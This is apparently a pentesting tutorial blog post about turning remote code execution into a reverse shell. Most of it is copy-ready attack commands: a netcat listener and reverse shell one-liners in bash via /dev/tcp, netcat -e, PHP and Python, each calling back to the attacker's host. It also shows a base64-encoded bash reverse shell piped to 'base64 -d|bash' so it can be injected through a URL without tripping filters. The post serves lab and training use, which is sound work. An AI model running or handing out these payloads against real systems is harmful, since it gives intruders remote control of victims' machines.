 ```yaml
---
layout: post
title:  "Get reverse shell with RCE"
tags: ['reverse-shell', 'pentest-basics']
---
```


## Introduction

When we are triying to pwn a machine we look for a shell connected to the victim's machine. Sometimes we can found some credentiales or RSA keys to connect via SSH. More times we can't get a SSH shell but we have some [RCE][rce].
In this article we are going to cover different ways to get a reverse shell with [RCE][rce]

Soon, in later articles we are going to be covering how to upgrade these shell's because these are not interactive, means, for example, that if we press TAB we won't get an autocompletion, we will just get a tabulation. 

Also, a good practice before try to connect a reverse shell is try to test this RCE in order to don't confuse if the reverse shell got an error, beacuse we won't know if the problem is about the RCE or the shell.

For the porpous of this post we are going to be using an Ubuntu FocalFossa machine from [osboxes.org ][osboxes]

## Concepts and notation
In order to follow this post we have to make clear some concpets and notation.
When we say $IP we mean the ip address of the attacker's machine. You can choose any port for $PORT, just remember have to be a number between 1 and 65,535. Also the port have to be free, no service have to be running. A common port used to reverse shell is 443

## From attacker's machine
In most of the cases we are going to use netcat in order to listen to the comunication
This will be the only command we execute in our attacker's machine, the rest of them will be executed on the victim's machine.

We have to run:
```bash
nc -lvnp $PORT
```
With this command we are going to be waiting for connecions at this port in our machine.

## From victim's machine
The command that we have to inject are one of those:

### Bash

This is propably the easiest way to do it.
We have to enter this command in the victim's machine

```bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

### Netcat

If netcat is installed in the victmim's machine we can also got a reverse shell
```bash
nc -nv $IP $PORT -e /bin/sh
nc -nv $IP $PORT -e /bin/bash
```
Either of this two commands will work.

### PHP

If we have php installed on the victim's machine we can:
```php
 php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Special cases
We just saw a few ways to get a reverse shell but sometimes we have to inject the code on an url. So there's a problem because if we try to inject the bash code we can see that there is some special characters that the web would recognize like /. We wan't to pass that command as a string, so the web can't recognize that characters.

### Encode to base64
First we have encode the command to base64.
```bash
echo $command_to_convet | base64
```
For example we are going to convert:
```bash
bash -i >& /dev/tcp/192.168.1.36/443 0>&1
```
The result:
```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMzYvNDQzIDA+JjEK
```
We notice that now we dont have those special characters that were bothering us, but now we have another problem.
We can't just pass this encode string and expect the victim's machine to recognize IT.

So we have to tell it how to decode and execute, THIS IS THE FINAL URL COMMAND THAT WE HAVE TO INJECT:
```bash
echo $encode_string|base64 -d|bash
```
We just to put the previusly encoded string into the $encode_string variable




[osboxes]: https://www.osboxes.org/
[rce]: https://www.n-able.com/blog/remote-code-execution
